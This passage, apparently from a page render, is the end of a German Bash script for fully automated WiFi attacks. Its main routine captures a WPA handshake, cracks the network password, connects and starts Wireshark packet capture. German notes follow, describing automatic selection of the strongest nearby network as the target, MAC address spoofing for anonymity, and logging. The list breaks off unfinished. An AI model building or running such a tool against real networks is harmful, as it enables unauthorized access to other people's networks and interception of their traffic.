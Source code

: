     # Capture Handshake
    handshake_file=$(capture_handshake "$monitor_interface" "$bssid" "$channel" "$ssid")
    if [ $? -ne 0 ]; then
        log "${RED}Handshake-Capture fehlgeschlagen. Beende...${NC}"
        cleanup
        exit 1
    fi
    
    # Cracke Handshake
    password=$(crack_handshake "$handshake_file" "$ssid")
    if [ $? -ne 0 ]; then
        log "${RED}Handshake-Cracking fehlgeschlagen. Beende...${NC}"
        cleanup
        exit 1
    fi
    
    # Verbinde mit dem WLAN und starte Wireshark
    connect_and_capture "$ssid" "$password" "$monitor_interface"
    
    # Bereinige
    cleanup
    
    log "${GREEN}===== Skript erfolgreich abgeschlossen =====${NC}"
    log "${GREEN}Alle Ergebnisse wurden in $OUTPUT_DIR gespeichert.${NC}"
}

# Starte das Skript
main




----
## Funktionen des vollautomatisierten Skripts

Dieses Skript führt den gesamten WLAN-Hacking-Prozess ohne manuelle Eingaben durch:

1. **Automatische Konfiguration**: Alle Parameter können am Anfang des Skripts angepasst werden.
    
2. **Automatische Zielauswahl**: Das Skript wählt automatisch das Netzwerk mit dem stärksten Signal aus, wenn kein spezifisches Ziel angegeben ist.
    
3. **Verbesserte Sicherheit**:
    
    - Ändert die MAC-Adresse für mehr Anonymität
        
    - Umfassendes Logging aller Aktionen
        
4. **Vollständiger Workflow**:
    